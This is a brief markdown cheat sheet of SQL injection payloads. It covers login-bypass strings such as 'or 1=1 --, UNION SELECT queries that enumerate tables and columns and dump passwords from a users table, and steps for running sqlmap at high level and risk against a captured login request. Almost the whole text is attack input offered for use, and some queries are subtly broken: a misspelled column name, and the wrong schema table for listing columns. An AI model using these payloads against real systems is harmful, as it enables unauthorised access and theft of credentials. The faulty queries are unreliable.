 # manual sql-injections
 ## examples

 ```
'
'or 1=1 --
username = admin ' --   password = '
1 OR 1=1
'1 OR 1=1
'1 OR '1'=1
'1 OR '1'='1
1 OR '1'='1'
1 UNION SELECT 1
1 UNION SELECT 1,1    // check if select requires one or two parametres
1 UNION SELECT table_name,table_name FROM information_schema.tables   // list tables
1 UNION SELECT column_name,colum_name FROM information_schema.tables WHERE table_name="users"   // list columns
1 UNION SELECT password,password FROM users
USERNAME'-- -
admin     // append spaces
admin=
xxx@xxx.xxx' OR 1 = 1 LIMIT 1 -- ' ]
xxx') OR 1 = 1 -- ]
```

 # automated sql-injections
 ## automated sql-injection using sqlmap
 
 1. capture login request (e.g. using burp proxy)
 2. save raw request in login.req with newlines removed (except before parametres)
 3. `sqlmap -r login.req --level 4 --risk 3`